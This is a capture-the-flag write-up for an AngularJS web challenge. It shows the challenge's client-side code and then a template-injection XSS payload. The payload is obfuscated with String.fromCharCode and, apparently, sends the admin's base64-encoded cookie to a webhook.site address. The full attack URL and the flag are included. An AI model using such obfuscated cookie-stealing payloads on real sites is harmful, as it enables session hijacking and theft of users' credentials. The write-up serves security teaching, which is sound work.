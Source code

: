 # legacy
> Just because it's legacy doesn't mean its not on the internet

## About the Challenge
We got 2 websites, first the admin bot. So we need to input our URL that contains XSS payload in order to obtain the flag in cookie's admin

![preview_admin](images/preview_admin.png)

And another website that using AngularJS

![preview_website](images/preview_website.png)

## How to Solve?
If we check the source code by pressing `Ctrl + U` there is a custom JS code called `helloworld.js`. Here is the content of the JS file

```javascript
document.cookie="dummy=legacy1";
var myApp = angular.module('helloworld', ['ui.router']);

myApp.config(function($stateProvider) {
  var helloState = {
    name: 'hello',
    url: '/hello',
    template: '<h3>hello world!</h3>'
  }

  var aboutState = {
    name: 'about',
    url: '/about',
    template: '<h3>Its the UI-Router hello world app!</h3>'
  }

  var indexState = {
    name: 'index',
    url: '/',
    template: '<h3>Index</h3>'
  }

  template = document.createElement("span")
  template.innerHTML = "<h3>404</h3>path not found: "
  sanitizer = document.createElement("code")
  sanitizer.innerText = document.location
  template.appendChild(sanitizer)
  var f04State = {
    name: '404',
    url: '/404',
    template: template.innerHTML
  };

  $stateProvider.state(helloState);
  $stateProvider.state(aboutState);
  $stateProvider.state(indexState);
  $stateProvider.state(f04State);
});

myApp.config(["$locationProvider","$urlRouterProvider", function($locationProvider,$urlRouterProvider) {
  $locationProvider.html5Mode(true);
  console.log($urlRouterProvider);
  $urlRouterProvider.otherwise('/404');
}]);
```

As you can see, we can input the payload in the 404 page. So Im using this angular payload to solve this chall (Im using [Portswigger cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#angularjs-reflected--1.0.1---1.1.5-(shorter)) as a reference)

```angular
{{$on.constructor('alert(1)')()}}
```

And in order to obtain the flag, we need to change the payload like this

```angular
{{$on.constructor('eval(String.fromCharCode(118,97,114,32,105,61,110,101,119,32,73,109,97,103,101,40,41,59,32,105,46,115,114,99,61,34,104,116,116,112,115,58,47,47,119,101,98,104,111,111,107,46,115,105,116,101,47,52,55,99,50,99,100,99,57,45,49,50,51,51,45,52,97,99,56,45,56,101,56,98,45,53,53,101,102,101,48,54,97,101,98,50,99,47,63,99,111,111,107,105,101,61,34,43,98,116,111,97,40,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,41,59))')()}}
```

At first, I was using a normal payload to send the cookie to my webhook. However, the website kept encoding my payload. As a result, I decided to use `String.fromCharCode` to address this issue. Here is the final URL structure that I came up with:

```
http://legacy-1.ctf.hackaplaneten.se:8001/awikwok#!{{$on.constructor('eval(String.fromCharCode(118,97,114,32,105,61,110,101,119,32,73,109,97,103,101,40,41,59,32,105,46,115,114,99,61,34,104,116,116,112,115,58,47,47,119,101,98,104,111,111,107,46,115,105,116,101,47,52,55,99,50,99,100,99,57,45,49,50,51,51,45,52,97,99,56,45,56,101,56,98,45,53,53,101,102,101,48,54,97,101,98,50,99,47,63,99,111,111,107,105,101,61,34,43,98,116,111,97,40,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,41,59))')()}}
```

Check your webhook, and you will see base64 encoded msg in `cookie` parameter

![flag](images/flag.png)

```
SECFEST{L3g4cy_l3@k_w1th_0ld_cOd3_Tw3Ak}
```